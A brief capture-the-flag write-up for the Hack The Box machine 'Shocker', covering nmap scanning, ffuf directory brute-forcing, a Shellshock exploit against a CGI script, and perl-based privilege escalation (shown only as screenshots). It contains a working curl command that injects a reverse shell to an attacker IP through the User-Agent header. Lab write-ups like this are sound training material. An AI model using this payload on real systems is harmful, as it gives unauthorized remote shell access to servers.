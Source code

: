 # [Shocker](https://www.hackthebox.com/machines/shocker)


```bash
nmap -p80,2222 -sC -sV 10.10.10.56 -Pn
```
![Alt text](img/image.png)



Directory brute-forcing

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ
```




From here we found 'cgi-bin' directory then we found and 'user.sh' file.

user.sh file is below.

![Alt text](img/image-1.png)

Let's search for the exploit of shellshock.
![Alt text](img/image-2.png)

From this exploit's code we see that we need to send request with this request header.
![Alt text](img/image-3.png)


Exploitation  (ShellShock)
```bash
curl -H "User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.16.3/4444 0>&1" http://10.10.10.56:80/cgi-bin/user.sh
```

Reverse shell comes back.
![Alt text](img/image-4.png)



user.txt
![Alt text](img/image-5.png)


Our shelly user can run below binary(perl) as root user.

![Alt text](img/image-6.png)


Let's search on gtfobins.

![Alt text](img/image-7.png)


root.txt

![Alt text](img/image-8.png)
